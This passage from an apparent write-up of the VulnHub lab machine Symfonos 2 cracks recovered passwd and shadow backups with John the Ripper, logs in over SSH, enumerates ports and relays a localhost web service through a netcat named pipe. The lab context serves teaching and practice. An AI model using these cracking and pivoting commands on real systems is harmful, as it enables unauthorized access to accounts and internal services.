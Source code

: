 Once I pull down those two files, I used John the Ripper's `unshadow` to combine them for cracking:
```
# unshadow passwd.bak shadow.bak > symfonos2-john
```

Now the combined file is ready to throw at John the Ripper:
```
# john --wordlist=/usr/share/wordlists/rockyou.txt symfonos2-john
```

Not quite sure how long it took since I kicked it off and walked away, but when I returned I found
it had cracked the password for the user 'aeolus', and with that we get to ssh into the computer
as a normal user with a full shell! Unfortunately, aeolus isn't allowed to sudo so we are left to
continue our search for a way to escalate privileges.

I used the LinEnum.sh script again to try and identify potential avenues to root, and one of the
interesting items in the report was the list of listening ports on this server:
```
[-] Listening TCP:
State      Recv-Q Send-Q Local Address:Port               Peer Address:Port              
LISTEN     0      80     127.0.0.1:3306                     *:*                  
LISTEN     0      128          *:5355                     *:*                  
LISTEN     0      50           *:139                      *:*                  
LISTEN     0      128    127.0.0.1:8080                     *:*                  
LISTEN     0      32           *:21                       *:*                  
LISTEN     0      128          *:22                       *:*                  
LISTEN     0      20     127.0.0.1:25                       *:*                  
LISTEN     0      50           *:445                      *:*                  
LISTEN     0      128         :::5355                    :::*                  
LISTEN     0      50          :::139                     :::*                  
LISTEN     0      64          :::80                      :::*                  
LISTEN     0      128         :::22                      :::*                  
LISTEN     0      20         ::1:25                      :::*                  
LISTEN     0      50          :::445                     :::*                  


[-] Listening UDP:
State      Recv-Q Send-Q Local Address:Port               Peer Address:Port              
UNCONN     0      0      127.0.0.53%lo:53                       *:*                  
UNCONN     0      0            *:68                       *:*                  
UNCONN     0      0            *:68                       *:*                  
UNCONN     0      0      10.0.100.255:137                      *:*                  
UNCONN     0      0      10.0.100.28:137                      *:*                  
UNCONN     0      0            *:137                      *:*                  
UNCONN     0      0      10.0.100.255:138                      *:*                  
UNCONN     0      0      10.0.100.28:138                      *:*                  
UNCONN     0      0            *:138                      *:*                  
UNCONN     0      0            *:161                      *:*                  
UNCONN     0      0            *:5355                     *:*                  
UNCONN     0      0           :::5355                    :::*
```

It would appear that there are some services that are running and only being offered up on the
localhost (127.0.0.1), 8080 and 3306. These ports are typically used for HTTP and MySQL
respectively. A quick `curl` GET request to http://127.0.0.1:8080 shows us that we are looking at
a login page, so I decided to start there. Another piece of information we got from the LinEnum.sh
script is that netcat is installed, so we can use that to get a quick look at the website using a
named pipe. This is a great trick that I picked up from my time in the SANS SEC560 course. It may
be a little tricky to fully grasp, but I will do my best to describe what's going on here:
```
mknod backpipe p
nc -l -p 8006 0<backpipe | nc 127.0.0.1 8080 1>backpipe
```


[1]: /disclaimer/
[2]: https://www.vulnhub.com/entry/symfonos-2,331/
[3]: https://twitter.com/@Zayotic
[4]: https://www.exploit-db.com/exploits/36742
[5]: https://www.exploit-db.com/exploits/47044